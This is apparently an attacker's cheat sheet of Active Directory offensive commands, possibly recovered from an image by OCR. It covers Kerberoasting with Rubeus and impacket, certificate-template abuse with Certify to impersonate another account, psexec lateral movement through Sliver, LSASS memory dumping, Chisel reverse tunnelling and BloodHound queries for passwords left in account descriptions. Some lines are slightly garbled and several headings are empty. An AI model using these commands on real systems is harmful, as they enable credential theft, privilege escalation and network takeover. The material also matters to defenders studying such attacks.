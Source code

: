 ```go
seatbelt -- -group=all full
sharpup audit
// Kerberoasting
rubeus kerberoast
// Certificate Abuse
certify find /vulnerable
// From seamlsess intigence part 2, because this syntax makes it easy to understand than $variableNames
certify request /ca:sv001-dc.corp1.local\\corp1-SV001-DC-CA /template:WebServerVuln /altname:jboss
// openssl pkcs12 -in cert.cer -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
// rubeus to get tgt
rubeus asktgt /user:jboss /certificate:C:\\Windows\\system32\\cert.pfx

// psexec is embedded into sliver good for lateral movement
// Profile creation to use the same configuration
psexec -p <profile> <hostname>

prodump -p $lsasspid 
// pypykatz lsa minidump $procdump_sliveridstuff
```

## Chisel 

```bash
# Servers
chisel server --host $interfaceIP -p 10000 -v --socks5 --reverse --auth user:pass
# Clients 
chisel client --fingerprint $serverFingerprint --auth user:pass $serverIP:10000 $CLIENTARGS
# Always use the R:$serverIP:$NewPort never 127.0.0.1


# LPF

# RPF

# DPF

# DRSP


```
## Impacket
```bash
impacket-GetUserSPNs -request -dc-ip 172.16.6.240 beyond.com/john
```
## Bloodhound Data

#### JQ
```bash
# create bh_usernames.txt
cat*_users.json | jq '.data[].Properties | select( .enabled == true) | .name' | tr -d '\"' | awk -F@ '{print $1}' > bh_usernames.txt
# All enabled accounts with descriptions may contain passwords
cat *_users.json | jq '.data[].Properties | select( .enabled == true) | select( .description != null) | .name + " " + .description'

# Accounts with SPNS for impacket-GetUserSPNs 
cat *_users.json | jq -r '.data[].Properties | {name: .name, SPNs: .serviceprincipalnames[]?}'

#  For JSON in one array for .passwords fields
cat *.json | jq -r '.[] | .passwords'
```